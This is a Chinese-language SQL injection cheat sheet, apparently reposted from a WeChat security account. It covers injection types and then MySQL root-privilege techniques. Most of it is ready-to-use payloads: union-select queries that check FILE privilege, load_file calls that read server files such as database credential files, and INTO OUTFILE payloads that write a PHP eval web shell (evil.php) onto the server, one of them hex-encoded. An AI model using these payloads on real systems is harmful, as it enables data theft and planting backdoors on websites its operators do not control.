 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/TKLAy5V7sssiFwlmcivghA)

> **来自公众号：Bypass**

SQL 注入分类方式：  

```
提交方式：GET  POST COOKIE
参数注入：数字型/字符型/搜索型
数据库类型：ACCESS/Mysql/MSSQL/Oracle
手工注入方法：联合查询、报错注入、盲注（基于布尔型、基于时间延迟）

```

### **0x01 Mysql**

### Mysql 划分：权限  root        普通用户 版本  mysql>5.0   mysql<5.0  

**1.1 root 权限**

load_file 和 into outfile 用户必须有 FILE 权限，并且还需要知道网站的绝对路径

判断是否具有读写权限

```
and (select count(*) from mysql.user)>0#
and (select count(file_priv) from mysql.user)>#

```

A、Load_file() 该函数用来读取源文件的函数，只能读取绝对路径的网页文件

注意：路径符号”\” 错误  “\” 正确  “/” 正确，转换成十六进制，不用 “”

```
id=1 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,load_file（’/var/www/index.php’）(物理路径转16进制)

```

可以用来读取数据库连接文件获取数据连接账号、密码等

```
?id=1'and 1=2 union select 1,load_file('D:\\wamp\\www\\111.php')%23
id=1'and 1=2 union select 1,load_file(0x443A2F77616D702F7777772F312E706870)%23

```

B、into outfile 函数

条件：1. 绝对路径    2. 可以使用单引号

```
?id=1 union select 1,"<?php @eval($_POST['g']);?>",3 into outfile 'E:/study/WWW/evil.php'
?id=1 LIMIT 0,1 INTO OUTFILE 'E:/s
tudy/WWW/evil.php' lines terminated by 0x20273c3f70687020406576616c28245f504f53545b2767275d293b3f3e27 --

```
